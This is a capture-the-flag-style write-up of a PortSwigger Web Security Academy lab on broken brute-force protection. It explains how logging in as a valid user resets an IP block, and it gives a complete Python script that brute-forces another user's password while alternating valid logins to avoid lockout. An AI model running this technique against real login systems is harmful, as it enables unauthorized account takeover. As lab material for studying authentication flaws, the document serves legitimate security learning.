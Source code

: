 # Authentication Vulnerabilities

<h3> Broken brute-force protection, IP block</h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/503c5d03-8fab-4ecd-93be-77c2e1a16e64)

Going over to the web app shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/db03e8c5-4227-485b-9051-4a96584bede6)

But since we're interested in the login page I went there
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/411fdbb1-67db-49d8-8beb-a640a8884278)

First thing we should note is that we're already given a cred to login as `wiener:peter` but the goal is to brute force the user `carlos` password with the password wordlist given

Let us login as the user *wiener* first
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8d66fd76-235f-4da4-9395-6001a09673e3)

It works cool. When we try loggin in as user carlos with a random cred it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e6ee17ee-7936-41e2-94bb-f198501862c9)

And after the third attempt of trying random password it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d5dbd879-c1aa-4d34-80db-1390c6e3ab69)

Hmmmm we've been blocked for one minute

After waiting for a minute and then trying to login as user *wiener* works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e6238793-bfe4-437a-8f87-e597bc785b2f)

I logged out then tried loggin in as user carlos with random password but for just two request
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a0b860a9-8975-4a48-8c79-807a8a91642c)

Then the third request I logged in as user wiener and it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/249e4a48-e522-4124-803f-852803064425)

So now the logic behind this login function is that:
- After two failed login we get incorrect password as expected
- Then the third login when tried with a valid cred works which prevents the the web app from blocking our IP

Cool with this we know that we can brute force the user's password for every two requests made and the third request we will login as weiner

I made a script for that though *Portswigger* recommended a burp extension
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2392dd57-3372-4b21-8781-612ee1ef8f79)

Here's my script 

```python
#!/usr/bin/python3
import requests
import time
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

with open('passwords.txt', 'r') as f:
    passwords = [passwd.strip() for passwd in f.readlines()]

url = 'https://0a42008903a8b19183b582120062005e.web-security-academy.net/login'

data = {
    'username': 'carlos',
    'password': ''
}

valid_cred = {
    'username': 'wiener',
    'password': 'peter'
}

# Make a valid request to prevent IP Block
req = requests.post(url, data=valid_cred, verify=False, allow_redirects=True)

count = 0

for password in passwords:
    data['password'] = password
    req = requests.post(url, data=data, verify=False)

    if 'Incorrect password' not in req.text:
        print(f'Password found: {password}')
        break

    count += 1

    # On every 3rd request bypass IP blocker by logging in with valid cred
    if count == 2:
        print(f'Trying: {password}')
        req = requests.post(url, data=valid_cred, verify=False)

        count = 0
```

Running it gives the password
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a37c4341-dd38-491a-a0a1-bf0c83de5afd)

And automatically it shows solved
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/38123a6b-bac9-492a-b674-a3f050160a32)



